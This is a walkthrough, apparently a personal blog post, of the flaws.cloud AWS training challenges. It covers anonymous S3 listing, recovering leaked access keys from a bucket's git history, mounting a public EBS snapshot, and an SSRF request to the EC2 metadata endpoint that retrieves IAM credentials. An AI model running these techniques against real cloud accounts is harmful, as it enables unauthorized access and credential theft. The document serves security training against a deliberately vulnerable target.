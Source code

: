 +++
title = "flaws.cloud Writeup"
date = 2018-08-08T00:41:06+01:00
draft = false
author = "Rob"
description = "Steps and commands used to test AWS services. Specifically, the [flaws.cloud](http://flaws.cloud) challenges."
+++

## Level1
Find the region of s3 bucket:

```
dig +nocmd flaws.cloud any +multiline +noall +answer
flaws.cloud.		600 IN NS ns-1061.awsdns-04.org.
flaws.cloud.		600 IN NS ns-1890.awsdns-44.co.uk.
flaws.cloud.		600 IN NS ns-448.awsdns-56.com.
flaws.cloud.		600 IN NS ns-966.awsdns-56.net.
flaws.cloud.		600 IN SOA ns-1890.awsdns-44.co.uk. awsdns-hostmaster.amazon.com. (
				1          ; serial
				7200       ; refresh (2 hours)
				900        ; retry (15 minutes)
				1209600    ; expire (2 weeks)
				86400      ; minimum (1 day)
				)
flaws.cloud.		5 IN A	54.231.177.35

nslookup 52.218.240.179
179.240.218.52.in-addr.arpa	name = s3-website-us-west-2.amazonaws.com.
```

Search for readable files in the s3 bucket.

```
aws s3 ls flaws.cloud --region us-west-2 --no-sign-request

2017-03-14 03:00:38       2575 hint1.html
2017-03-03 04:05:17       1707 hint2.html
2017-03-03 04:05:11       1101 hint3.html
2018-07-10 17:47:16       3082 index.html
2018-07-10 17:47:16      15979 logo.png
2017-02-27 01:59:28         46 robots.txt
2017-02-27 01:59:30       1051 secret-dd02c7c.html
```

## Level2

Create an IAM user and configure a profile with the creds.

```
aws configure --profile pwners
AWS Access Key ID [None]: xxxxxxxxxx
AWS Secret Access Key [None]: xxxxxxxxxxx
Default region name [None]: 
Default output format [None]: 
```

Use the new profile to list the files of the level2 domain.

```
aws s3 ls --profile pwners s3://level2-c8b217a33fcf1f839f6f1f73a00a9ae7.flaws.cloud/
2017-02-27 02:02:15      80751 everyone.png
2017-03-03 03:47:17       1433 hint1.html
2017-02-27 02:04:39       1035 hint2.html
2017-02-27 02:02:14       2786 index.html
2017-02-27 02:02:14         26 robots.txt
2017-02-27 02:02:15       1051 secret-e4443fc.html
```

## Level3

List the files in the bucket. It has the same issue as the previous, so you can just use your own AWS creds.

```
aws s3 ls --profile narc s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/
                           PRE .git/
2017-02-27 00:14:33     123637 authenticated_users.png
2017-02-27 00:14:34       1552 hint1.html
2017-02-27 00:14:34       1426 hint2.html
2017-02-27 00:14:35       1247 hint3.html
2017-02-27 00:14:33       1035 hint4.html
2017-02-27 02:05:16       1703 index.html
2017-02-27 00:14:33         26 robots.txt
```

Download all the files from the bucket using aws s3 sync.
```
aws s3 sync s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/ . --profile narc
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/.git/HEAD to .git/HEAD
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/.git/index to .git/index
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/.git/logs/HEAD to .git/logs/HEAD
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/robots.txt to ./robots.txt
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/hint2.html to ./hint2.html
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/index.html to ./index.html
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/hint4.html to ./hint4.html
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/hint3.html to ./hint3.html
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/hint1.html to ./hint1.html
download: s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/authenticated_users.png to ./authenticated_users.png
```

We can see that there is a .git file. Let us look and see what files and changes there are.

```
git log
commit b64c8dcfa8a39af06521cf4cb7cdce5f0ca9e526 (HEAD -> master)
Author: 0xdabbad00 <scott@summitroute.com>
Date:   Sun Sep 17 09:10:43 2017 -0600

    Oops, accidentally added something I shouldn't have

commit f52ec03b227ea6094b04e43f475fb0126edb5a61
Author: 0xdabbad00 <scott@summitroute.com>
Date:   Sun Sep 17 09:10:07 2017 -0600

    first commit
```

Use git checkout to get back to the original commit. We can see what stuff was accidentally left in the repo.

```
git checkout f52ec03b227ea6094b04e43f475fb0126edb5a61
Note: checking out 'f52ec03b227ea6094b04e43f475fb0126edb5a61'.

You are in 'detached HEAD' state. You can look around, make experimental
changes and commit them, and you can discard any commits you make in this
state without impacting any branches by performing another checkout.

If you want to create a new branch to retain commits you create, you may
do so (now or later) by using -b with the checkout command again. Example:

  git checkout -b <new-branch-name>

HEAD is now at f52ec03 first commit
root@pentest-rw:~/blah# ls
access_keys.txt          hint1.html  hint3.html  index.html
authenticated_users.png  hint2.html  hint4.html  robots.txt
root@pentest-rw:~/blah# cat access_keys.txt 
access_key xxxxxxxxx
secret_access_key xxxxxxxx
```
Now use the previous method to create a new profile with the access keys. Find all available buckets now.

```
aws s3 ls --profile flaws
2017-02-12 21:31:07 2f4e53154c0a7fd086a04a12a452c2a4caed8da0.flaws.cloud
2017-05-29 17:34:53 config-bucket-975426262029
2017-02-12 20:03:24 flaws-logs
2017-02-05 03:40:07 flaws.cloud
2017-02-24 01:54:13 level2-c8b217a33fcf1f839f6f1f73a00a9ae7.flaws.cloud
2017-02-26 18:15:44 level3-9afd3927f195e10225021a578e6f78df.flaws.cloud
2017-02-26 18:16:06 level4-1156739cfb264ced6de514971a4bef68.flaws.cloud
2017-02-26 19:44:51 level5-d2891f604d2061b6977c2481b0c8333e.flaws.cloud
2017-02-26 19:47:58 level6-cc4c404a8a8b876167f5e70a7d8c9880.flaws.cloud
2017-02-26 20:06:32 theend-797237e8ada164bf9f12cebf93b282cf.flaws.cloud
```

## Level4

From this one is just a list of commands because I don't want to go through all the steps manually again right now. :)

```
aws --profile flaws sts get-caller-identity (get account id)
aws --profile flaws  ec2 describe-snapshots --owner-id 975426262029 (get snapshots)
aws --profile YOUR_ACCOUNT ec2 create-volume --availability-zone us-west-2a --region us-west-2  --snapshot-id  snap-0b49342abd1bdcb89 (create a volume by using the snapshot)
ssh -i YOUR_KEY.pem  ubuntu@your_aws_ip
lsblk
sudo mount /dev/YOUR_VOLUME/1 /mnt

Now search for shit.
```

## Level5

The only interesting bit from this level.

```
http://4d0cf09b9b2d761a7d87be99d17507bce8b86f3b.flaws.cloud/proxy/169.254.169.254/latest/meta-data/iam/security-credentials/flaws/
```

